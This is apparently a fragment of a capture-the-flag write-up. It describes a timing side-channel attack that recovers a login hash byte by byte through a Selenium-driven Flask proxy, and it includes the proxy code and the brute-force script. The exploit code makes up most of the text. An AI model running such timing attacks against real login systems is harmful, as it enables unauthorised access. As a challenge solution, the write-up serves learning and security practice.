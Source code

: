 ```
        url = "http://127.0.0.1:5000/flite?user={}&pass={}".format(username,password)
        browser.get(url) #navigate to the page
        hashnya = browser.execute_script("return document.body.querySelector('div#result').innerText")
        req = requests.post("http://104.196.12.98",data={"hash": hashnya})
        browser.close()
        nganu = "Username: "+ username + " / Password: " + password + " / Time Elapsed: "+str(req.elapsed.total_seconds()) + " / Hashnya: " + hashnya
        return nganu

app.run(debug = True,threaded= True)
```

the flask app is simply take an user&password and then encrypt the value using javascript function provided in the target application.

```
import requests
import string
from tqdm import tqdm
import random

url = "http://127.0.0.1:5000/flite"

hashnya = "f9{}aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
while True:
	basket = {"time":0,"hex":"xx"}
	fname  = hashnya.split("{}")[0] + "_"+str(random.random())[2:]
	for x in tqdm(range(256)):
		ress = open("result/" + fname,"a")
		tmp = "%0.2x" % x
		# print hashnya.format(tmp)
		req = requests.post(url,data={"hash":hashnya.format(tmp)})
		req_time = req.text
		# req_time = req.elapsed.total_seconds()
		if float(basket["time"]) < float(req_time):
			basket["time"] = float(req_time)
			basket["hex"] = tmp
		ress.write("Bytes: " + str(tmp)+" "+str(req_time)+"\n")
		ress.close()
		print "\nBytes: " + str(tmp),str(req_time)+"\n"
	hashnya = hashnya.format(basket["hex"]+"xx").split("xx")[0]+"{}"+"a"*(64-(len(hashnya.format("xx").split("xx")[0])+4))
	print "Current Hash: " + str(hashnya)
```

this exploit is send request to the proxy (flask application) and then analyze the response time which is returned in the body response from the flask app and then save all the response time to text file to help me manually analyze the response because sometime the timing just messed up.

running out the scripts multiple times and finally get the correct hash to login into the application.
